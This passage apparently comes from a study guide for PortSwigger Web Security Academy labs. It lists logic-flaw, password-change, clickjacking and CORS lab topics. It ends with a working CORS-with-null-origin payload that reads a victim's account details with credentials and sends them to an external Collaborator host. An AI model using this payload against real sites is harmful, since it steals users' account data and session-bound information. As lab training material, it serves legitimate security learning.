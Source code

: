    - Low-level logic flaw( add too many products to loop back around to the minimum possible value to eventually reach a range within the available store credit after adding a product)

   - Exploiting a mass assignment vulnerability



## _**Change password after login functionality**_
   - Weak isolation on dual-use endpoint (the current password functionality depends on the param being present, when it is not present the server doesn't check for the current pass when changing the password, the user whose password is changed is determined by the username parameter.)

   - Password brute-force via password change


## **_Clickjacking_**
   - Basic clickjacking with CSRF token protection

   - Clickjacking with form input data prefilled from a URL parameter

   - Clickjacking with a frame buster script

   - Exploiting clickjacking vulnerability to trigger DOM-based XSS

   - Multistep clickjacking


## **_CORS (The application's response contains the Access-Control-Allow-Credentials:True header)_**

Tip: Make sure the ParamMiner burp extension is turned off before testing for and exploiting CORS.

   - CORS vulnerability with basic origin reflection 

   - **_CORS vulnerability with trusted null origin_**

Special Code that returns the first 22 lines of the response (When Access-Control-Allow-Credentials: true) :-

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="about:blank" id="responseFrame"></iframe>`
`<script>
var req = new XMLHttpRequest();
req.open('get', 'https://LAB-ID.web-security-academy.net/accountDetails', true);
req.withCredentials = true;
req.onreadystatechange = function() {
if (req.readyState === 4 && req.status === 200) {
var lines = req.responseText.split('\n');
var firstTenLines = lines.slice(0, 22).join('\n');
// Modify the URL below to the actual server where you want to send the data
var serverURL = 'https://COLLAB-ID.oastify.com/log?key=';
var frame = document.getElementById('responseFrame');
frame.src = serverURL + encodeURIComponent(firstTenLines);
}
};
req.send();
</script>
```
